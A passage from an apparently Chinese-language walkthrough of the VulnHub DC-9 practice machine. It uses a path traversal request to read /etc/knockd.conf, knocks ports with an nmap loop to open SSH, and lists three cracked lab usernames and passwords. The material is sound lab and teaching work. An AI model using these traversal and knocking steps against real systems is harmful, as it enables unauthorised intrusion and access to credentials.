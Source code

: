 ![](../../../../../assets/img/安全/实验/VulnHub/DC/DC9/12.png)

什么鬼,怎么连不上去,google 了半天,原来是用一个叫 knock 服务保护 SSH,按特定的访问端口才可以访问服务,淦,找一下 knock 的配置文件吧.

`http://192.168.141.143/manage.php?file=../../../../etc/knockd.conf`

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC9/13.png)

开门,社区送温暖
```bash
for x in 7469 8475 9842; do nmap -Pn --max-retries 0 -p $x 192.168.141.143; done
nmap -T5 -A -v -p- 192.168.141.143
```

ok,开了,连接试试

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC9/14.png)

试出3个账号可以连接
```
chandlerb   UrAG0D!
joeyt       Passw0rd
janitor     Ilovepeepee
```

---